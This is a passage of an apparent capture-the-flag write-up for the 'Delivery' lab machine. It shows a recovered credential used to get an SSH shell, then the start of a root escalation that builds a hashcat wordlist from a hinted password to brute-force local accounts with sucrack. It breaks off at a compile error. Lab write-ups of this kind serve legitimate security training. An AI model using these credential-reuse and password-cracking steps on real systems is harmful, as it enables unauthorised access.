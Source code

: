 ![](Attachments/Pasted%20image%2020220530224508.png)
Here we can find the credential: `maildeliverer:Youve_G0t_Mail!` and also we can find two big hints.  
Now, if we try to use this credentials for SSH we got a shell as user maildeliverer
```bash
[root@kali Delivery ]$ ssh -l maildeliverer $TARGET                                                                   
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.                                          
ED25519 key fingerprint is SHA256:AGdhHnQ749stJakbrtXVi48e6KTkaMj/+QNYMW+tyj8.                                        
This key is not known by any other names                   
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                              
Warning: Permanently added '10.10.10.222' (ED25519) to the list of known hosts.                                       
maildeliverer@10.10.10.222's password:                     
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64                                           

The programs included with the Debian GNU/Linux system are free software;                                             
the exact distribution terms for each program are described in the                                                    
individual files in /usr/share/doc/*/copyright.            

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent                                                     
permitted by applicable law.                               
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5       
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)                                                                    
maildeliverer@Delivery:~$ whoami                           
maildeliverer                       
```

## Root
### Method 1 - Sucrack
Once we log in, following the previously discovered suggestion, we can try to use [hashcat to generate a wordlist](https://infinitelogins.com/2020/11/16/using-hashcat-rules-to-create-custom-wordlists/) based on the suggested password 'PleaseSubscribe!' and give this wordlist to sucrack in order to try to crack system accounts.  
To generate the dictionary we can use the following `hashcat` command:  
```bash
[root@kali Delivery ]$ hashcat pass_reuse.txt -r /usr/share/hashcat/rules/best64.rule --stdout > passwords.txt 
```
`pass_reuse.txt`  file, obviously contains, as only entry `PleaseSubscribe!` . 
the rule file `/usr/share/hashcat/rules/best64.rule` does a permutaion of the given password.  
Now that we have a dictionary we can use `sucrack`.  
Unfortunately, we cannot compile `sucrack` offline and ship and execute only the binary, since the compiler is complaining about some `gcc` dependencies.  